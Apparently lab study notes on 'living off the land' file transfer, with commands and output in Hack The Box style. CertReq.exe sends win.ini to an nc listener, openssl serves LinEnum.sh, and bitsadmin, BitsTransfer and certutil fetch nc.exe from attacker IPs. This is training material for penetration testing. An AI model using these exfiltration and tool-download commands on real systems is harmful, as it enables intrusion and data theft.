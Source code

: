 - [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

## Windows CertReq.exe 
RHOST:
```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```
LHOST:
```shell-session
Tachipy@htb[/htb]$ sudo nc -lvnp 80
```


## Linux openssl:

LHOST create ssl cert:
```shell-session
Tachipy@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```
LHOST:
```shell-session
Tachipy@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

RHOST:
```shell-session
Tachipy@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Bitsadmin
#### File Download with Bitsadmin

  File Download with Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

Download

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---



#### Download a File with Certutil

  Download a File with Certutil

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
